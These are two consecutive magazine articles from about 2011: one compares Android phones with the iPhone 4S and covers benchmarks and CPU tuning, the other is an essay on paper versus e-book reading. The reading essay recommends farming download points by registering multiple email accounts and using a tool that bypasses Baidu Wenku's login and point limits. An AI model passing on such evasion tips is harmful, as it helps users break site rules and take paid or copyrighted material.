iPhone 4S拥有9.3mm的厚度和140g的重量，而且屏幕尺寸只有3.5英寸，视觉面积和便携性不成正比，而且对女性用户而言还是有些偏沉的感觉。在Android阵营中，在产品的纤薄和便携性方面超越iPhone 4S的产品无数，而且不乏采用了4英寸以上超大屏幕的产品，其中最值得大家关注的就是三星i9100。

三星i9100

4199/3199元（行货/水货）

屏幕：4.3英寸，800×480像素

CPU：三星Exynos 4210

GPU：Mali400MP

RAM/ROM：1GB/16GB

摄像头：800万像素

重量/电池：116g/1650mAh

优点：机身超薄，屏幕色彩艳丽，性能表现强悍

缺点：对需要数据包的3D游戏的兼容性有待提升

三星i9100是目前已上市Android手机中性能最强悍的代表作，虽然采用了4.3英寸超大屏幕，但8.49mm的厚度与116g的重量却让很多小屏幕的轻薄产品黯然失色，拥有近乎完美的便携性（除了屏幕较大以外）。需要注意的是，i9100处理器内置的GPU为Mali400MP，对Gameloft旗下的某些3D大作支持不太好（没有适用的数据包）。

# 音效冠军

# HTC Sensation XE

如今手机已经取代了传统MP3的角色，承担起了聆听动人乐章的重任。就音质而言，iPhone 4S较iPhone 4并无提升，但来自Android阵营中的不少新品却大幅强化了声音表现力，引入各种音效认证技术来讨好用户的耳朵。

HTC Sensation XE

3599元（水货）

屏幕：4.3英寸，960×540像素

CPU：高通MSM8260

GPU：Adreno 220

RAM/ROM：768MB/4GB

摄像头：800万像素

重量/电池：151g/1730mAh

优点：支持1080P摄像，预设Beats音效，具备强大的娱乐特性

缺点：刚上市价格偏高

加入Beats音效对喜欢用手机听音乐的同学来说肯定是个好消息。

# 小提示:

HTC并非唯一重视手机音效的厂商，比如OPPO新推出的X903就加入了对杜比音效技术的支持，听音乐和看电影时都能享受到环绕立体的效果。

# 软件篇：Android 挑战 iOS 的秘籍

# 挑战iOS5 Android 4.0披甲上阵

前文说过，与iOS相比，Android系统最大的缺点就是版本过于分散，既有针对手机的2.x系列，又有针对平板优化的3.x系列，版本之乱导致了不同的操作体验和兼容性缺陷。为了提升Android的竞争力，谷歌将在10月下旬发布全新的Android 4.0 (Ice Cream Sandwich, 冰淇淋三明治)，确保软件在手机和平板电脑间的通用性，彻底结束3.x系统和安卓2.x操作系统版本分化历史。

Android 4.0的UI吸取了3.x系统的精髓，在界面最下面固化了返回、主页和菜单的虚拟快捷键（手机可以像平板一样，取消上述三个物理按键），并学习iOS，在Android Market中提供了音频、视频的下载，建立类似GameCenter的游戏中心，确保用户可以更方便地，获取更丰富的资源和应用。另一方面，4.0系统还同步升级了Linux内核，加入对多核处理器的优化，双核或年底的四核处理器在4.0系统中将有用武之地。此外，4.0还延续开源的特性，这意味着今后用户可下载到更丰富的第三方固件资源，比如CyanogenMod 8。总之，随着Android 4.0的出现，安卓手机终于从系统层面有了挑战iOS5的机会。

# Android也有“Siri”

利用Siri，用户可以通过iPhone 4S读短信、介绍餐厅、询问天气、语音设置闹钟等，而Siri还能够不断学习新的声音和语调，提供对话式的应答，着实让非苹果用户羡慕不已。其实，在Android平台上早就有类似Siri的语音控制软件“Vlingo”（下载地址：http://www.yingyong.so/app/2/1442.htm），类似发送短信、拨号、搜索、更新社交信息、打开应用程序、获得方位、收听新信息等操作都可轻松实现的。需要注意的是，Vlingo运行时需要网络的支持，建议设有3G包月套餐或在有WiFi网络的环境下使用，因为Vlingo比较耗费流量，而且对网络环境要求较高，在2G或E网下可能会因网速过低而报错。

简单来说，Vlingo还是以关键词+固定语法实现语音控制，还不能达到Siri的自然语言+上下文衔接的智能高度，但它却支持中文（完胜Siri）。笔者试用了一下，类似电话、短信识别率非常高，还能朗读邮件和短信内容，声控打开闹钟、导航、计算器等系统软件。点击“搜索”Vlingo还能回答你的问题（建议在设置的搜索引擎中选择百度）。如果你英语比较好，将软件的语言设为英文，Vlingo的命令形式会更多，回答常识问题的准确率也会更高，类似“Who、When、Where、How Long”等提问都能正确识别，比如“Who is the president of the United States of America”（美国总统是谁）。

# 小提示:

除了Vlingo，Android平台还有Speaktoit等类似Siri的软件，而随着用户对语音控制需求的不断增加，不排除谷歌今后推出“官方Siri”的可能。此外，类似iCloud的云服务也并非苹果专属，Android系统中也有像Google Market的推送安装，通讯录同步，还有刚刚推出的Google Music Beta，可惜这些服务没有做系统级别的整合，而类似豌豆荚、金山（联手小米）、阿里云OS（天语W700）等软件和产品上已经有类似的服务功能。

# 随心所欲的个性系统

如果你厌倦了默认的系统界面，可以借助“GO桌面”、“ADW”等桌面启动器来改变手机的界面风格，比如让摩托罗拉手机也能用上模仿HTC Sense或三星TouchWiz的主题界面。如果你的手机是HTC G7/G10/G11、三星I9000、摩托罗拉里程碑/Defy等，还可以安装在小米手机上运行的MIUI系统（具体教程请参考www.miui.com），今年年底“点心OS”也将针对热销的手机型号推出兼容的ROM供消费者刷机。总之在Android系统中你可以尝试更多的主题界面，自行安装丰富的第三方ROM，自由度是iPhone 4S所无法比拟的。

# 技巧篇：CFan 教你用好 Android 手机

# 你的Android手机有多强？

iPhone由于软硬件的封闭性，性能自是一代更比一代强。但对于Android手机来说，即便是同一款型号，在不同的系统版本或优化与否时的性能差别却会非常明显。举个例子，三星I9000如果安装的是官方ROM（操作系统），在Quadrant Advanced测试中的总成绩会在1600左右，但安装了由网友制作的第三方优化ROM后，总成绩则可能超过2100分。因此，对Android手机而言，系统的优化至关重要，笔者也建议Android手机用户可以尝试一下民间推出的非官方ROM。下面，笔者就推荐一些Android系统中的评测软件，可以让你直观地了解手机在当前ROM下的性能水平。

# Multitouch Test

http://www.yingyong.so/app/3/1612.htm

为了保证操作体验，如今Android手机基本都采用了多点触控的电容屏，但这块屏幕最多支持几点同时操作？这款软件就能帮你快速确认屏幕所支持的触控点数。想媲美iPhone 4S，至少屏幕也要达到5点或以上级别的触控操作吧。

# Vellamo网页基准

http://www.yingyong.so/app/3/1554.htm

上网是智能手机的最基本应用，而Vellamo可为浏览器的性能和稳定性提供了一个全面的看法，包括网络，脚本，渲染，和用户体验。分数越高，你的手机在上网冲浪时也会更为流畅稳定。

# Quadrant Advanced

http://www.yingyong.so/app/2/1198.htm

针对CPU、内存、I/O输入输出、2D及3D图像等项目提供了一键式的完整测试，也可单独测试某一个项目。可惜由于软件很旧未曾更新，基准最高分仍然是去年的Nexus One，但仍不失为最直观的综合考量手机性能的软件。

# 超级兔子

http://www.yingyong.so/app/0/289.htm

手机性能强不强，关键在于比对。这款软件除了能一键运行完整测试项目，展现CPU、内存、GPU等性能表现以外，还可以将测得的分数上传，查看你的设备与其它Android设备的对比排名，直观了解你的手机到底处于什么档次。想媲美iPhone 4S，成绩最好能超过4500分。

# BenchmarkPi

类似于PC平台的Super PI，通过计算圆周率考验CPU性能的测试软件，根据其得分可以在相同频率的CPU之间，相同CPU不同ROM之间进行对比，从而了解硬件与系统方面的性能差异。非常实用，支持在线提交成绩。

http://www.yingyong.so/app/2/1197.htm

# NenaMark1

硬件加速基准测试程序，通过演示一款实时渲染的画面来对手机的图形能力进行测试，包括反射、动态阴影、曲面参数、复杂光线模式等内容，可以考量Android内部GPU的性能。

http://www.yingyong.so/app/2/1193.htm

# GLBenchmark

提供了两个主要测试场景：其一名为“Egypt”（埃及），测试最新、压力最大的OpenGL ES 2.0；其二名为“PRO”，测试旧版的OpenGL ES 1.1。均支持FSAA（全屏抗锯齿）。该软件对GPU负载较高，可较直观展现手机的GPU性能。

http://www.yingyong.so/app/2/1195.htm

# 性能过剩，可以优化节能

说实话，如今Android平台的大型高清3D游戏，用高通单核MSM8255（1GHz，集成Adreno 205图形芯片）都能流畅运行，对NVIDIA Tegra 2和高通MSM8260这类双核处理器而言更无压力。可以说，如今高端的Android手机已经进入了性能过剩时代。另一方面，绝大多数Android手机内置的锂电池容量都在1500mAh以内，续航时间多在36小时以内。那么，如何优化才能不浪费CPU硬件资源，并能最大限度提升手机的续航时间呢？

# 初级用户：省电点心帮你忙

对普通用户，笔者推荐“省电点心”（下载地址：http://www.yingyong.so/app/3/1771.htm）来延长手机的续航能力。安装后记得在桌面上添加该软件的widget插件，这个插件可以实时计算出手机的续航时间，在充电时还能预估充满时间，点击右边的“小叶子”按钮就能关闭后台正在运行的耗电程序，实现和“高级任务管理器”的“一键清理”插件类似的功能。“省电点心”可以记录手机软件的应用耗电和自身硬件耗电情况，帮助用户找到耗电的“元凶”。

与Android平台的其它省电软件相比，“省电点心”提供了强大的模式设置功能：如果你手机快没电了，可以切换到“超长待机模式”，此模式只保留电话和短信的功能，会自动切断网络和其它耗费电力的硬件；晚上睡觉时进入“闹钟模式”，软件会自动进入飞行模式，可以放在床头当闹钟使用还能减少辐射；如果你不喜欢默认的设置，还可以自定义新模式，手动选择屏蔽哪些功能或硬件，将电量使用控制在最优状态，非常方便。

# 高级用户：SetCPU控制手机CPU

以Gameloft的《不朽的神迹HD》为例，对高通MSM8260（默认1.5GHz，集成Adreno 220图形芯片）这类双核处理器而言，在800MHz左右的主频下就能流畅运行，那闲置的700MHz等于在白白地消耗电力。实际上，在Android系统上也有类似PC平台的CPU降频/超频软件，如果你讲究的是实用，而不是只能在评测软件上才能体现出来的分数优势，不妨考虑用SetCPU（下载地址：http://www.yingyong.so/app/1/620.htm）对手机处理器的主频进行优化。

# 小提示:

运行SetCPU需要手机破解ROOT权限，至于如何ROOT，可以针对你手机的型号，在安卓、机锋等论坛中找到对应的ROOT教程。使用SetCPU有一定风险，建议普通用户不要用它来超频，设置的最低频率也不要低于200MHz（否则容易出现无法唤醒屏幕的问题）。当然，如果你手机CPU性能一般，也可借助此款软件进行小幅超频，从而改善手机的运行速度。

在手机上安装并运行SetCPU，当出现授权提示时选择通过，接下来就能进入SetCPU的主界面了。如果你怕自己设置不好，可以只拖动主界面最高主频的调节框（不同CPU调节范围和可选值不同，比如1GHz的处理器，有些显示1017MHz，有些则为998MHz），选择“ondemand”模式（按需响应模式，根据需要自动调节CPU频率，此模式的特点是频率升高需条件触发，频率下降无需触发，反应迅速，相对最简单最安全）。同时勾选“启动时设置”，如此一来你的手机CPU最高只能工作在你设定的最高主频状态，每次重启手机后也无需再次设置。

如果你希望手机可以更智能的省电，在做完上述设置后，再点击界面顶部的“情景模式”选项卡，在这个界面可添加详细的情景状态。以笔者的HTC MyTouch 4G（MSM8255）为例，采用了下表的设置，其中频率调节全部选择“ondemand”模式，并勾选“启动”按钮。

| 情景模式 | 最大 | 最小 | 优先级 | 说明 |
|---|---|---|---|---|
| 充电 | 1017MHz | 230MHz | 90 | 充电时不怕费电 |
| 关屏 | 368MHz | 230MHz | 75 | 待机时最低越好 |
| 电量小于20% | 368MHz | 230MHz | 80 | 此时还是越省电越好 |
| 温度高于40度 | 768MHz | 230MHz | 95 | 及时降温保证CPU寿命 |
| 通话 | 537MHz | 230MHz | 80 | 通话时无需太高的频率 |
| 时间23:00-06:30 | 368MHz | 230MHz | 80 | 睡觉时CPU也休息一下吧 |

以上频率仅供参考，大家可根据自己CPU的调节范围，选择类似的主频即可。

根据笔者的切身体验，在什么都不装的情况下，手机基本是一天一充；在相似的使用强度下，当使用“省电点心”后则可坚持到第二天中午；再结合SetCPU，基本可以扛到第二天晚上。可见，只要合理借助第三方软件，提升Android手机的续航时间还是很容易实现的。

## 书不能再这么读了

电子阅读时代已经来临，手捧电子书的人们似乎是找到了制胜的“法宝”。但是，当你陶醉于新技术给生活带来的便利的同时，是否反思过新技术的“弊”？电子阅读，在你读的同时，它也许正在“毒”你！我们只有在阅读中深入地进行反思，理智地进行抉择，不断地提高技能，才能让新的阅读技术更好地服务于我们的生活。

## “读”在反思中

阅读，自有文字以来，经历了多次革命性的变迁，从刀与石的镌刻，到铅与火的锻制，再到光与电的出版印刷，阅读的历史发展至今，在享受着变迁带来的便利的同时，多数人都是陶醉于科技发展带来的喜悦中。但是，面对发展给我们带来的一系列负面因素，我们是不是需要好好反思一下呢？“读”在变迁中，反思更重要！

## 从“动刀”到“动键”——态度的反思

小学生A：爸爸！古人看起来真傻，他们干嘛要把字刻在石头上或骨头上啊？多费劲！感觉他们活得比我们累。键盘打字多利落，自从你给我买了电脑，我学会了打字，现在真的不想再用笔来写作业了！

爸爸：看看你的作业本吧，字写得像蜘蛛爬，这还不说，多数“蜘蛛”上还套了老师设的红圈。那是老师不好意思打叉号，怕伤了你的自尊。看来我们该好好反思一下了。

在谈“读”之前，我们有必要简要回顾一下“写”。没有写哪来读？我们知道，古代的文字是刻在兽骨、石头或竹简上的。在这些坚硬的材质上刻字，辛苦程度可想而知。即使是后来发展到毛笔字，写字本身也不是件轻易的事情。在那个时代，写字不单单是一项脑力活，也是一项体力活。这种繁重而艰难的体力劳动造就了古人们惜墨如金的品质。面对现代人在键盘上打错字而轻易退格或删除就能更正的便捷，你有没有想象过古人在一块石碑上刻错一个字的懊悔情形？也许，正是那种书写的艰难才造就了流传几千年而不衰的言简意赅的中国古文和严谨的文风。

现代印刷技术的发展和网络技术的出现让出版变得无处不在，阅读随即成了随时随地都可进行的事情，加上现代出版技术的逐步简单化和亲民化，出版越来越成为一件很随意的活动，比如当前的博客或微博就是一种人人都可以上手的出版方法。这种出版方式，由于没有严格的文字技术规范审查和制约，写作者书写付出又没有那么艰辛，加上人们快节奏的生活习惯和漫不经心的态度，造成了网络读物质量的良莠不齐。而街头到处都在卖的由黑心书商在一夜间攒起来的各类盗版图书中，其中的文字错误更是让人看后啼笑皆非。对于我们个人来说，由于对键盘的依赖性，原来会写的字变得不会写，原来可以轻易写对的字现在不小心就会写错，大中小学生书写能力的退化让老人们担心，同时也引起了教育界的高度关注。

古代出版的惜墨如金和精益求精，与现代出版的简便随意，告诫人们在制作阅读产品时要继承我们祖先的优良工作传统，在态度上要向我们的前辈们学习。与此同时，面对因制作者态度不端而造成的出版物鱼龙混杂的局面，提醒大家注意，阅读要选对书，而内容尤其重要，切不可被花里胡哨的封面和引人上钩的标题和版式所蒙蔽。出版物制作需要一种态度，而选择也需要一种态度。出版的容易造成的结果是信息爆炸，面对汹涌而来的信息，我们选择的范围迅速扩大，然而选择选择也同时成为最困难的事情。浅阅读流行，深度阅读越来越少。如果在选择上不进行反思，不下一番功夫，浪费时间和吃亏是不可避免的。

## 从“点头”到“摇头”——健康的反思

华华（高三学生）：医生！给我的脖子拍个片吧，我八成得了颈椎病，脖子僵硬，难受得厉害！

医生：你才多大年纪啊，怎么会有颈椎病啊！不用拍片，我帮你推拿推拿。你注意看书的姿势就行了。多用正确的姿势活动一下自己的脖子和肩膀。如果你学习古文，建议你看一些竖排的古书。

华华：看古书能治我的颈椎病？这个倒是头一次听说，很新鲜，我回家试试！

阅读方式的变化也带来了对身心健康的影响，曾经被人批判的摇头晃脑的阅读方式其实也有利于健康的一面。也许你从电视上看到过古代私塾房里的孩童诵读《三字经》的场面——摇头晃脑，低头抬头。因为古书版式是自上而下的排版方式，加上古代图书上的字体都要比现代版的字大许多，书本的尺寸相对来说也不小，这样，在念书时从上看到下，再从下看到上，就形成了脑袋不断上下往复运动的姿势；再加上为了与文章内容韵律的合拍，诵读时脑袋往往也要配合左右上下摇动，所以总体上形成了上下左右摇动脑袋的姿势。就是这个被现代人嗤之以鼻的动作，细想起来是有它的科学道理的。你听说过古人有哪个因为念书刻苦而得颈椎病的吗？不知浩如烟海的史料有没有记载，不知你听说过没有，反正我没听说过。

> 小知识：横排图书何时起？为何竖排改横排？
中国古代汉字是竖行书写的，这大约和初期的书写材料有关。最早的书写材料甲骨呈狭长形，竖着在上面刻字比横着刻字显然要方便得多。纸张发明前，用毛笔在狭长的木简、竹简上书写，也是从上往下写方便。因此形成了从上到下、从右到左的古代书写方式。汉代以后纸张虽然发明出来了，但汉字书写的习惯仍然沿袭下来。隋唐的雕版印刷出现及宋代的活字印刷发明后，都是竖排横行，古人们并没有去“发明创造”一个横排的方式。
到了清朝末年，一些知识分子学习西洋文化，出现了汉文里经常引用外文、书写阿拉伯数字、使用新标点符号等情况，汉字竖写就显得很不方便了。于是，知识界开始提倡汉字改革，提倡拼音文字，力主改变传统的竖行书写方式，改用从左到右的横写排列。
1909年我国已有了用“横行”排版的书，它就是提倡文字改革的刘世恩写的《音韵记号》一书。1915年出版的《科学》周刊创刊号，也是把汉字“横行”排列的。我国新文化运动的先驱者、《新青年》杂志编辑钱玄同，在《新青年》1919年3月第3期上，刊载了他致陈独秀的公开信，对汉字“竖改横”的做法，发表了见解。以后，钱玄同又在《新青年》连续发表四篇公开信，积极倡导“竖改横”的主张。随着新文化运动的逐步兴起，汉字改横写终于渐渐为国人所接受。
中华人民共和国建国初期，时任教育部部长的郭沫若先生，便向毛主席提议：“改过去竖向的书写方式为横向书写方式，把从右往左改为从左往右。因为人的眼睛，左右转动所看到的角度和区域，要比上下转动所看到的角度和区域都广阔得多。这样横着书写和看书就会减轻眼睛的疲劳程度。” 从此，汉字横排成风。

点评
新文化领导的潮流以及郭沫若先生提出的方法，的确是提高了阅读的劳动生产效率，看书速度提高了，眼睛的疲劳程度在局部范围有所降低（但我严重怀疑横版小跨栏阅读的方式在降低眼肌疲劳的同时是不是得近视眼的人更多了，有待科学数据验证）。但是，他们可能万万没有想到，眼睛的问题还没有解决，脖子又出毛病了。因此，现在也有一些人提出“复古”，提倡使用繁体字和竖版印刷。看来想问题还得辩证一点，打倒古人也该谨慎一点，这样才符合马克思主义的精神。西方的文字是横排，没错，因为如果竖排单词拼起来很难看懂。但汉字不同，古人经过几千年的总结和实践，得出一套既有利健康又不影响阅读的方法，一夜之间就被我们的“新文化”当作糟粕推翻了，我们现在是不是需要反思一下呢？不过，历史已经发展到今天，恢复竖排我看是不可能了，但选横排还是选竖排阅读，那是你个人的事情了。好在，现在在这方面政府还是“给尔自由”的。

## 从“贫乏”到“泛滥”——专注性的反思

李科长：上周布置给你们的任务为何至今没有完成？本来是一个人两天的工作量，7天过去了怎么才做了一半？效率如此之低！

小王（心里嘀咕）：早晨一上班开启QQ，弹出的八卦就够我一上午看了。下午朋友发来“超级”链接，放马出去，一个下午又过去了，哪有时间给你做那点“屁事”。本想着昨天紧赶一天就能完成任务，不巧公司停电，该我倒霉！

小李（心里嘀咕）：本来是上网搜索，找老板布置的作业，搜来搜去，被上面的美女给迷住了，没想到点击美女还能赚积分。一周下来，虽然工作没有完成，但积分还是赚了不少啊！

电子科技和网络的发展让信息变得无处不在，人们接受信息的方式，已经由原来的主动为主变得被动了许多，网络上越来越多的弹出和推送信息以及上网浏览常常跑题就是一个很鲜明的例证。再想一想你自己吧，多久没有连续几个小时专心做一件事情了，或者静静地看本书，或者专心写篇日记，甚至只是发会儿呆。你是否有过这种体验，打开电脑，看会儿新闻，上会儿微博，泡个论坛，看看团购信息，瞧瞧淘宝、京东商城，一个上午甚至一天很快就过去了，即使只是浏览资讯，或者搜寻资料，你会发现花费的时间都大大超出自己的想象。凡此种种，不得不让我们对阅读的专注性提出反思。针对这个问题，本刊主编曾在某期导言中作了很好的描述和总结——

> “生活在互联网时代的我们习惯了思维的不停跳跃，从一个事件迅速跳到另一个事件……注意力在每件事情上停留的时间越来越短，而我们也越来越习惯这种节奏，一刻也停不下来，隔段时间就要跳出子头上的事情，否则就会坐卧不宁。”
“碎片化的互联网正在让我们思维的深度越来越浅，我们快速地浏览各种各样的资讯，思考的时间越来越少；我们热衷八卦的、娱乐的信息，稍显枯燥、艰深的内容都一跳而过。我们的视野越来越宽，但是思想的深度却越来越浅；我们的资讯越来越多，但是智慧却越来越少。”
“我们的欲望越来越多，心则越来越不安定……互联网上海量的信息也让我们越来越无所适从，很多人都有这样的体验，在网上浏览资讯或者查找资料，不知不觉中就会迷失方向，花在网上的时间越来越长，到最后甚至忘了最初的目的是什么。”
“区别于传统纸质书籍的信息接收方式，互联网从一开始就注定了其浅层次和碎片化的阅读和思维方式，而传统的方式强调更深度和专注……生活在互联网时代的我们，或许要不时地回归传统的阅读方式，静下来读书、耐心地思考、训练自己的专注力。因为，没有专注，我们的人生将会缺乏深度。”

## “读”在抉择中

## 从传统阅读到电子阅读——现代阅读习惯与取向

面对丰富多彩的阅读方式和阅读设备，我们该何去何从？是跟随时尚，随波逐流，还是固守着自以为是的那种古老阅读方式自得其乐，抑或是冷静思考，根据自身需求适时选择适合于自己的阅读方式？是选择接近于传统阅读感觉的电纸书，还是选择功能更多的彩屏电子书？关于这些问题，也许请来专家作答也不一定会有明确的答案，反倒是深入到群众中去寻找答案，或许会对你有所启发。

同事A：你为什么不买个电子书或苹果“iPad”？凭你的工资收入，不差那几个钱吧！

同事B：我又不是没有用过电子书。没吃过天鹅肉，咱最起码见过天鹅飞吧。跟你说，在电子书上阅读，我根本找不到那种读书的感觉。总体感觉是浮躁，不踏实。所以，咱不用那个。

这是一位典型的“固守传统型”读者，一切诱惑对他来说都没有丝毫用处。这类读者更注重的是那种传承数千年的读书感觉。纯粹的这类读者虽然为数不算多，但骨子里或多或少有这种感觉的读者恐怕不在少数。就让我们进入三大阵营，看看读者们的选择倾向吧。

## 第一阵营：传统派

传统书更具收藏价值

## 不可替代的感情萌芽

> 网友绿袖迎风：有很多书需要一读再读，本身也具有收藏价值（如古书善本）。同时，传统书也更利于长久收藏，而电子书信息容易失效或丢失。

> 网友happyluyin：还是传统书好呀，好多缘分还是从图书馆来的呢，呵呵！坐在家里看电子书，我想你不会有那种艳遇吧！在地铁里捧着个电纸书阅读，可能本来该有的‘那份缘’也给耽误了，更别说图书馆里的艳遇了。电子阅读确实在某种程度上拉开人与人之间的距离。

## 书墨香的守神作用电子书无法替代

> 网友moonxiu2010：传统的书好，书墨香有让人宁神的作用，慢慢品味，才是真正的阅读。传统的书看起来比较有感觉，静静的坐着翻着一本书，是一种享受，闻着纸和油墨的香味，品味着书中的真理、奥秘，真是一种美的享受啊！那种对书香气味的依恋，可能不亚于男女情入之间对他（她）那种特殊气味的依恋。闻惯了书墨香味的资深读书人，换种方式或许真的难以找到感觉。而电子书比较适合无聊时看看小说，作为消遣之用。

## 自己喜欢的常翻的就要买传统书

> 网友daingxhwo：需要经常去翻的书或者比较喜欢的书，像自己喜欢的作者或者专业类书籍，建议买传统印刷版的。买本纸质的回家慢慢体味，随时翻看，作为收藏不失为一个好办法。如果是随性看看，可以看电子书，本人也一向是电子书的拥护者，但是，最近在看电子书的时候发现了不少好书，觉得放在电子书里面心里不踏实，于是一口气在当当、卓越等网上书店买下了对应的纸质套书，与电子书、平板等一起堆放在床头‘待’看，自己非常喜欢的好书还是要收藏传统的善本。我的观点不一定完全正确，但我想认同的人应该比较多。

## ‘成就感’让我倾向于传统书

> 网友1141582348：学习读书时，传统书好，因为可以勾画做笔记，翻页快，看着一本新书变旧，心里很有成就感。看休闲小说时，电子书好，可以从网上免费下载，看完就删，更新快，当然忘得也快。长时间下来对眼睛也是负担，看完后收获小。总的来说，我比较倾向于传统书，能学到真正的知识。而用电子阅读器看书，你永远不会看到‘新书变旧’，纸质阅读，那种附着了情感的历史记忆是电子书无法可以‘理解’的。

## 同等存在传统阅读优先

> 网友酷夜哥：传统书对眼睛伤害较小，同一本书，如果电子书和传统书两种书同时可以找到，我一定看传统书。也许有那么一天，我的话被多数人推翻，大家都在青睐于用电子阅读而忘掉传统书。我想那时尚也一定是科技高度发达的年代，阅读技术已经达到了尽善尽美的程度。

## 第二阵营：时尚派

关于为什么喜欢电子书，不同人有不同的原因或理由。广告中说的那些理由也许不一定为你所信服，但具体到某个人的切身感受，或许也正是你选择电子书所具有的那种感受。

## 电子书是为常出差的我量身打制的

> 网友zqanyue：闲暇时，我的最大爱好是看书。老天偏偏给我安排了一个出差的行当，过去每逢旅行，总免不了背上厚厚的几本书。这两年好了，电子书的出现让我再也不用为出差带什么书和带几本书而费心思了。平时把自己收集到的电子书存在存储卡中，出差时只要将存储卡插入电子阅读器中，想看什么书就随自己的便了。

## 寻‘米’为‘炊’——资源不够用？上网下载免费书！

要说网上下载图书，目前规模最大，也是最方便的，莫过于一些门户网站推出的图书资料共享频道。例如，新浪爱问共享资料中心，就是一个很庞大的资料共享中心，在这里，你可以找到网友们共享的各种各样的图书资料。但是，有些资源的下载是有一些门槛的，有一些图书需要积分才能下载。我们可以想想办法，让没有积分的我也能下载到需要积分的书。

## 不花冤枉钱 尽量下载免费资源

搜索到一本需要积分才能下载的图书时，先不要急于下载，看看在共享资源的下方‘更多关于<某资源>的资料’这一栏下是否具有同名免费下载链接提供。如果有，下载免费的，你的积分就省下来了。还有一个办法，就是将这本书的名称拷贝到页面的搜索框中搜索，从结果中找有无该资源的免费下载提供。

## 小提示：

爱问资料共享支持的图书格式为TXT、DOC、XLS、RAR、PPT、PDF、ZIP、JPG等常用格式，单个文件大小限制为50MB以内，总的文件存储空间不限，存储时间为永久存储。因支持两种压缩文件格式，因此对于大部头书也可以打包切割共

## 合法利用‘漏洞’，轻松取得积分

爱问共享上标价为0的免费资源不需要登录账号即可下载。但标价大于0的资源必须登录才能下载。而你新注册的账户上，最多也只有20个默认积分。这时你可以多用几个邮箱注册账号，每用一个邮箱，你便可以获得20个积分。

## 百度文库积分不够也能下

百度文库的下载有积分限制，有时我们可能没有时间去赚取积分，但又想下载怎么办呢？用一款名叫‘文库宝’的软件就可以下载，而且免登录账号，无限制下载（文库宝下载地址：http://www.99d.com/down/4/490356.html）。

## 图书共享社区推介：

- 爱问共享资料：http://ishare.iask.sina.com.cn/
- 百度文库：http://wenku.baidu.com
- 豆丁网：http://www.docin.com/
- 360doc个人图书馆：http://www.360doc.com/
- 中国知网：http://www.cnki.net/
- 无忧PPT：http://www.51ppt.com.cn/
- 道客巴巴：http://www.doc88.com/
- 万方数据库：http://www.wanfangdata.com.cn/
- 无忧商务文档：http://www.5ucm.com/list.html
- 中国论文下载中心：http://www.studa.net/
- 360期刊网：http://www.360qikan.com/
- 管理资料吧：http://www.glzy8.com/

## 门户读书网，也有免费书

除了上面所说的图书共享网络社区外，一些图书还在知名门户网站（如新浪文化读书频道，新华网读书频道、凤凰读书、腾讯读书等）或读书网站上开辟有正版试读栏目，将图书的一部分甚至全部内容放在网上供读者阅读。对于这部分图书，我们除了在网站上在线阅读外，还可以将图书下载来，装在移动设备中进行阅读。

## 小技巧：顺藤摸瓜，下载更多好书

下载完一本好书后，请不要马上离开，看看下载链接下面的‘浏览此页的网友还喜欢’一栏中的资料，你会发现有关这本书或该作者的更多作品的下载。此外还有一个技巧，当你发现一本好书之后，不妨点击上传者账号名称，进入该共享者的资源共享列表，在这里，你也许会发现这本书所在的套书下载或这个作者的专辑下载呢。

## 造‘米’为‘炊’——下载找不到？自己制作电子书！

对于网上没有或不可能下载到的电子书，如果自己手头上有原材料，也可以自行制作电子书。传统图书或珍藏照片变彩色PDF电子书也许你收藏了一些绝版的纸质书，为了携带方便和防止磨损，你可以想办法将这些纸质书变成专业的PDF电子书，装在电子书中阅读。下面是具体的方法步骤。

## 特别话题

## 《电脑爱好者》·合订本

首先，要把纸质书用手机或数码相机拍照（也可以用扫描仪扫描），然后按页码顺序给图片文件编号，最后用如下方法制作PDF电子书。
第一步：准备好你拍摄或扫描的纸质书的所有图片。图片号要按页码先后顺序以一定的数字序列命名，这样利于在软件中排序。然后启动图像管理软件ACDSee 9，定位到这些图片存放的文件夹并按先后顺序对图片进行排序。
第二步：调整好图片顺序后，选择这些图片，然后用工具菜单命令“创建→创建PDF”，开始进入创建PDF电子书的步骤。
第三步：选择要创建的类型。因为我要创建一本完整的PDF电子书，所以要选择中间一项，不能选择与本项作业无关的另两项。
第四步：进一步调整页面和对页面做增删处理。如果没有必要，则可以直接点“下一步”继续进行。
第五步：确定生成文件的存放位置。同时，还可以选择创建之后的电子书运行之后是否直接进入全屏幕阅读状态。
第六步：点击“下一步”之后，开始创建PDF电子书。根据你所创建的PDF电子书的图片大小和图片数量以及你的机器的处理速度，这里需要的等待时间也有所不同。
第七步：创建完成，可以就地阅读一下，看看转换的效果是否满意。

## 小提示：

用上面这种办法，也可以把你珍藏的照片转换为PDF电子书。能将图片转换为PDF电子书的软件很多，除了上面我们介绍的ACDSee之外，最专业的莫过于Adobe Acrobat。安装了这个软件之后，通过鼠标右键命令，就可以把扫描的系列图片很方便地转换为一本PDF电子书。还有国产办公软件WPS，也可以将它所支持的任何文档，保存为PDF格式的电子书。此外，网上还可以找到许多将其他文档格式转换为PDF电子书的专用工具软件。

## 图文声像资料变PC多媒体电子书

如果你需要制作在PC上观看的电子书，那么完全可以将图文声像等许多内容融入进去，做成一本多媒体的电子书。目前能够制作多媒体电子书的软件很多，如iebook，Zinemaker等。具体制作方法可在杂志或网上找到，以前多有介绍，在此不再细述。

## 格式的困惑

毛毛：刚买了彩屏图书阅读器，本来在电脑中可以好好阅读的电子书，拷贝到SD卡插入电子书阅读器中死活都读不了。本因是自己藏了不少格式各异的电子书想用它来阅读，但一用才发现，许多书一打开就出现问题。请问老师有什么办法可以解决吗？

老师：这是一个看似简单的问题，但情况比较复杂，需要区别对待。
当一位朋友把一本好书的电子文件拷贝给你的时候，你的阅读设备不一定能显示出这本书的内容。由于目前产品的花样繁多，以及电子书文件格式的五花八门，加上业界对电子书文件格式没有强行的法律制约，造成设备与文件百花齐放的局面。这也造成了目前设备与格式的兼容性和统一性问题。这在为读者提供了多重选择的同时，也给使用带来了诸多不便。但是，我们可以通过如下办法得到解决。

## 工具转换，快速满足需求

如果你的设备正好不支持你手头上拥有的电子书格式。那么，除了直接上网去找设备可以支持的同名同内容图书之外，一个比较通行的方法是借助某个格式转换工具，将图书格式转换为设备可以识别和播放的格式。比如从DOC到PDF，从PDG到PDF，从DOC到TXT等等。
这里，我们不能不提一种万能的方案，那就是将其他格式的图书转换为TXT格式。因为TXT格式几乎是所有带阅读功能的掌上设备所支持的文件格式。因此，我们可以通过某种工具软件，把其他格式转为TXT格式。这样，我们就不惧怕什么格式问题了。
